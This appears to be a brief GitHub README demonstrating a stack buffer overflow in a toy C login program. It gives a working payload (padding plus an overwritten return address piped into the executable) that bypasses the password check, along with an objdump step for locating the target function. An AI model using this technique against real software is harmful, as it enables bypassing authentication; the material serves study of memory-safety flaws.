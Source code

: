 # BufferOverlow
Exploitation of buffer overflow in C language
Accessing the a function bypassing IF-ELSE condition which acts as a gateway. the structure is of login portal with username and password.To access the function the address of the particulat function is needed.
Here the address is
```cmd
ruby -e 'print "a"*32 + "\x60\x14\x40\x00"' | buffer.exe
```
This address may not be the same in all cases and depends on compilers.So check the address in the disassemble of executable file.
```cmd
objdump -d buffer.exe > diss.asm
```
There you can find the  address of function program().
In this program the scanf is used but the same exploit can be done in 
1. gets
2. scanf
3. sprintf
4. strcpy
